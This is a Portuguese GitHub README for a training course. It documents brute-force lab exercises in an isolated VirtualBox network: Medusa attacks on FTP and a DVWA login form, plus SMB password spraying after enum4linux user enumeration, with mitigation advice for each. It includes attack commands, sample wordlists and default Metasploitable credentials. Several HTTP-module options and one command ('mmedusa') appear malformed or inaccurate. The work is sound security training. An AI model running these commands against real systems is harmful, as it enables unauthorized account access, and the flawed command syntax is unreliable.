







# Desafio DIO: Kali Linux, Medusa e Ambientes Vulneráveis
## Entendendo o Desafio

Este projeto documenta a implementação de cenários de ataque de força bruta utilizando o Kali Linux e a ferramenta Medusa, em conjunto com ambientes vulneráveis como Metasploitable 2 e DVWA (Damn Vulnerable Web Application). O objetivo é simular ataques, exercitar medidas de prevenção e demonstrar a compreensão dos conceitos de segurança abordados no curso da DIO.

## Descrição do Desafio

O desafio consiste em configurar um ambiente virtualizado com Kali Linux e Metasploitable 2 no VirtualBox, utilizando uma rede interna (host-only). A partir desse ambiente, foram executados ataques simulados de força bruta em diferentes serviços:

*   **FTP:** Ataque de força bruta para obtenção de credenciais de acesso.
*   **Formulário Web (DVWA):** Automação de tentativas de login em um formulário web vulnerável.
*   **SMB:** Ataque de *password spraying* com enumeração de usuários para identificar credenciais válidas.

Além da execução dos ataques, o projeto inclui a documentação detalhada dos testes, wordlists utilizadas, comandos específicos do Medusa, validação dos acessos obtidos e recomendações de mitigação para cada cenário. O foco é demonstrar o entendimento técnico e a capacidade de aplicar conhecimentos em segurança ofensiva e defensiva.

## Objetivos de Aprendizagem

Ao concluir este desafio, os seguintes objetivos foram alcançados:

*   **Compreender ataques de força bruta** em diferentes serviços (FTP, Web, SMB).
*   **Utilizar o Kali Linux e o Medusa** para auditoria de segurança em ambiente controlado.
*   **Documentar processos técnicos** de forma clara e estruturada.
*   **Reconhecer vulnerabilidades comuns** e propor medidas de mitigação.
*   **Utilizar o GitHub** como portfólio técnico para compartilhar documentação e evidências.

## Configuração do Ambiente

O ambiente de laboratório foi configurado utilizando o VirtualBox, com duas máquinas virtuais (VMs) principais:

1.  **Kali Linux:** Distribuição Linux focada em testes de penetração e auditoria de segurança. Será a máquina atacante.
2.  **Metasploitable 2:** Máquina virtual intencionalmente vulnerável, utilizada como alvo para os ataques. Contém serviços como FTP, SMB e o DVWA.

Ambas as VMs foram configuradas com uma **rede interna (Host-Only)** para isolar o ambiente de teste da rede externa e garantir que os ataques simulados não afetem outros sistemas.

### Detalhes da Configuração de Rede

*   **Adaptador de Rede:** Host-Only Adapter
*   **Faixa de IP (Exemplo):** 192.168.56.0/24

**Exemplo de Configuração de IP:**

*   **Kali Linux:** 192.168.56.101
*   **Metasploitable 2:** 192.168.56.102


## Cenários de Ataque Simulado

### 1. Ataque de Força Bruta em FTP

#### Explicação

O File Transfer Protocol (FTP) é um serviço comum para transferência de arquivos. No entanto, se não for configurado corretamente, pode ser vulnerável a ataques de força bruta, onde um atacante tenta adivinhar credenciais de login usando listas de nomes de usuário e senhas. O Medusa será utilizado para automatizar essas tentativas contra o serviço FTP do Metasploitable 2.

#### Wordlist Utilizada (Exemplo: `users.txt` e `passwords.txt`)

```
# users.txt
user
msfadmin
admin
root
```

```
# pass.txt
123456
password
qwerty
msfadmin
```

#### Comando Medusa

Para realizar o ataque de força bruta no serviço FTP, utilize o seguinte comando no terminal do Kali Linux:

```bash
medusa -h 192.168.56.102 -u users.txt -P pass.txt -M ftp
```

*   `-h`: Endereço IP do alvo (Metasploitable 2).
*   `-u`: Arquivo contendo a lista de nomes de usuário.
*   `-P`: Arquivo contendo a lista de senhas.
*   `-M`: Módulo do serviço a ser atacado (ftp).

**`[Espaço para Print da Execução do Medusa - FTP]`**



#### Validação do Acesso

Após a execução bem-sucedida do Medusa, as credenciais válidas serão exibidas. Para validar o acesso, utilize um cliente FTP (como o `ftp` nativo do Linux) ou um navegador web.

```bash
ftp 192.168.56.102
```

**`[Espaço para Print da Validação do Acesso FTP]`**



#### Recomendações de Mitigação

*   **Senhas Fortes:** Exigir senhas complexas e longas.
*   **Bloqueio de Contas:** Implementar políticas de bloqueio de contas após múltiplas tentativas falhas de login.
*   **Autenticação por Chave:** Utilizar autenticação baseada em chaves SSH para SFTP (SSH File Transfer Protocol) em vez de senhas.
*   **Firewall:** Restringir o acesso ao serviço FTP apenas a IPs confiáveis.
*   **Monitoramento:** Monitorar logs de acesso para detectar tentativas de força bruta.

### 2. Automação de Tentativas em Formulário Web (DVWA)

#### Explicação

O Damn Vulnerable Web Application (DVWA) é uma aplicação web PHP/MySQL que é intencionalmente vulnerável. O cenário de login do DVWA (nível de segurança baixo) é ideal para demonstrar ataques de força bruta em formulários web. O Medusa pode ser configurado para interagir com formulários HTTP POST e tentar múltiplas combinações de usuário e senha.

#### Wordlist Utilizada (Exemplo: `users_web.txt` e `passwords_web.txt`)

```
# users.txt
user
msfadmin
admin
root
```

```
# pass.txt
123456
password
qwerty
msfadmin
```

#### Comando Medusa

Para atacar o formulário de login do DVWA, é necessário entender a estrutura da requisição HTTP POST. No DVWA, a URL de login é `/dvwa/login.php` e os parâmetros são `username`, `password` e `Login`. Além disso, é crucial capturar o cookie de sessão (PHPSESSID) e o token anti-CSRF (user_token) para que as requisições sejam válidas. No entanto, para simplificar o exemplo com Medusa, focaremos nos parâmetros básicos, assumindo que o nível de segurança do DVWA está baixo e não exige o token anti-CSRF para este tipo de ataque (ou que o token é fixo/previsível em algumas configurações).

**Nota:** Para um ataque mais robusto em ambientes reais, ferramentas como o Burp Suite ou scripts Python seriam mais adequadas para lidar com tokens CSRF e cookies de sessão dinâmicos.

```bash
mmedusa -h 192.168.56.102 -u users.txt -P pass.txt -M http -m POST -T /dvwa/login.php -D 'username=^USER^&password=^PASS^&Login=Login' -s 200 -e 'Login failed'
```

*   `-h`: Endereço IP do alvo (Metasploitable 2).
*   `-u`: Arquivo contendo a lista de nomes de usuário.
*   `-P`: Arquivo contendo a lista de senhas.
*   `-M http`: Módulo HTTP para ataques web.
*   `-m POST`: Método HTTP POST.
*   `-T /dvwa/login.php`: Caminho do recurso (URL) do formulário de login.
*   `-D 'username=^USER^&password=^PASS^&Login=Login'`: String de dados POST, onde `^USER^` e `^PASS^` são substituídos pelo Medusa.
*   `-s 200`: Código de status HTTP esperado para uma resposta bem-sucedida (neste caso, o DVWA redireciona para a página de sucesso após o login).
*   `-e 'Login failed'`: String de erro que indica uma tentativa de login falha. O Medusa procurará por essa string para determinar se o login foi bem-sucedido ou não.

**`[Espaço para Print da Execução do Medusa - DVWA]`**



#### Validação do Acesso

Após a identificação das credenciais, acesse o DVWA via navegador e tente logar com as credenciais encontradas.

**`[Espaço para Print da Validação do Acesso DVWA]`**



#### Recomendações de Mitigação

*   **CAPTCHA/ReCAPTCHA:** Implementar mecanismos de CAPTCHA para dificultar a automação de tentativas de login.
*   **Bloqueio de IP:** Bloquear endereços IP que realizam múltiplas tentativas de login falhas em um curto período.
*   **Limitação de Taxa:** Limitar o número de tentativas de login por usuário ou por IP em um determinado intervalo de tempo.
*   **Autenticação Multifator (MFA):** Adicionar uma camada extra de segurança, exigindo mais de um fator para autenticação.
*   **Monitoramento de Logs:** Monitorar logs de acesso para identificar padrões de ataques de força bruta.
*   **Tokens Anti-CSRF:** Utilizar tokens anti-CSRF para proteger formulários contra ataques de falsificação de requisição entre sites.

### 3. Password Spraying em SMB com Enumeração de Usuários

#### Explicação

O Server Message Block (SMB) é um protocolo de rede para compartilhamento de arquivos e impressoras. O *password spraying* é uma técnica de ataque onde um pequeno número de senhas comuns é testado contra um grande número de contas de usuário, em vez de tentar muitas senhas em uma única conta. Isso ajuda a evitar bloqueios de conta. A enumeração de usuários é o primeiro passo para identificar alvos válidos.

#### Enumeração de Usuários (Ferramenta: `enum4linux`)

Antes de realizar o *password spraying*, é fundamental enumerar os usuários válidos no sistema SMB. A ferramenta `enum4linux` é excelente para essa finalidade.

```bash
enum4linux -U 192.168.56.102
```

*   `-U`: Opção para enumerar usuários.

**`[Espaço para Print da Enumeração de Usuários com enum4linux]`**



#### Exemplo de Saída (`enum4_output.txt`)

Abaixo, um exemplo resumido da saída do `enum4linux`, mostrando a enumeração de usuários:

```
[+] Enumerating users on 192.168.56.102
[+] Getting all users and SIDs
S-1-5-21-3623811015-3361044348-30300820-1000  user (Local User)
S-1-5-21-3623811015-3361044348-30300820-1001  msfadmin (Local User)
S-1-5-21-3623811015-3361044348-30300820-1002  service (Local User)
S-1-5-21-3623811015-3361044348-30300820-500   Administrator (Built-in account)

[+] User info
user:1000:user
msfadmin:1001:msfadmin
service:1002:service
Administrator:500:Administrator

[+] Attempting to get password policy information
[+] No password policy information found.
```

#### Wordlist Utilizada (`senhas_spray.txt`)

```
# senhas_spray.txt
password
123456
Welcome123
msfadmin
```

#### Comando Medusa

Com a lista de usuários enumerados (por exemplo, `user`, `msfadmin`, `service`), podemos usar o Medusa para realizar o *password spraying*.

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smb
```

*   `-h`: Endereço IP do alvo (Metasploitable 2).
*   `-U`: Arquivo contendo a lista de nomes de usuário (`smb_users.txt`, obtidos via `enum4linux`).
*   `-P`: Arquivo contendo a lista de senhas comuns.
*   `-M smb`: Módulo do serviço a ser atacado (smb).

**`[Espaço para Print da Execução do Medusa - SMB]`**



#### Validação do Acesso

Após a identificação das credenciais, utilize o comando `smbclient` para validar o acesso a um compartilhamento SMB.

```bash
smbclient -L 192.168.56.102 -U msfadmin%msfadmin
```

*   `-L`: Lista os compartilhamentos disponíveis.
*   `-U`: Nome de usuário e senha (separados por `%`).

**`[Espaço para Print da Validação do Acesso SMB]`**



#### Recomendações de Mitigação

*   **Senhas Fortes e Únicas:** Exigir senhas complexas e que não sejam reutilizadas.
*   **Bloqueio de Contas:** Implementar políticas de bloqueio de contas após um número limitado de tentativas de login falhas.
*   **Desabilitar Enumeração de Usuários:** Configurar o servidor SMB para dificultar ou desabilitar a enumeração de usuários anônimos.
*   **Autenticação NTLMv2:** Utilizar versões mais seguras do protocolo de autenticação (NTLMv2 em vez de NTLMv1 ou LM).
*   **Firewall:** Restringir o acesso ao serviço SMB apenas a IPs confiáveis e redes internas.
*   **Monitoramento:** Monitorar logs de segurança para detectar tentativas de *password spraying* e acessos não autorizados.

## Conclusão

Este desafio proporcionou uma experiência prática valiosa na compreensão e simulação de ataques de força bruta em diferentes serviços. A utilização do Kali Linux e da ferramenta Medusa, em conjunto com ambientes vulneráveis, permitiu não apenas a execução dos ataques, mas também a análise das vulnerabilidades e a proposição de medidas de mitigação eficazes. A documentação detalhada serve como um registro do aprendizado e um guia para futuras auditorias de segurança.

## Referências

*   [DIO - Digital Innovation One](https://www.dio.me/)
*   [Kali Linux](https://www.kali.org/)
*   [Medusa](https://www.kali.org/tools/medusa/)
*   [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable2/)
*   [DVWA (Damn Vulnerable Web Application)](https://dvwa.co.uk/)
*   [VirtualBox](https://www.virtualbox.org/)
*   [enum4linux](https://www.kali.org/tools/enum4linux/)
